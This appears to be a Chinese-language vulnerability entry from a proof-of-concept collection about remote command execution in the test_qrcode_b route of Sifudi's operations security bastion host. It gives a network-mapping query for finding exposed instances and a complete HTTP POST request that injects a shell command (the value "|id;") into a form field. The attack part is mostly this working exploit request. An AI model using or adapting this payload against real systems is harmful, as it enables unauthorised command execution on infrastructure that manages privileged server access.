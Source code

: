 # 思福迪 运维安全管理系统 test_qrcode_b 远程命令执行漏洞

## 漏洞描述

思福迪运维安全管理系统是思福迪开发的一款运维安全管理堡垒机。思福迪运维安全管理系统 test_qrcode_b 路由存在命令执行漏洞。

## 漏洞影响

思福迪 运维安全管理系统

## 网络测绘

```
app="思福迪-LOGBASE"
```

## 漏洞复现

登陆页面

![image-20231116142127906](images/image-20231116142127906.png)

poc

```
POST /bhost/test_qrcode_b HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Content-Length: 23
Connection: close
Content-Type: application/x-www-form-urlencoded
Referer: http://xxx.xxx.xxx.xxx
Accept-Encoding: gzip

z1=1&z2="|id;"&z3=bhost
```

![image-20231116142143817](images/image-20231116142143817.png)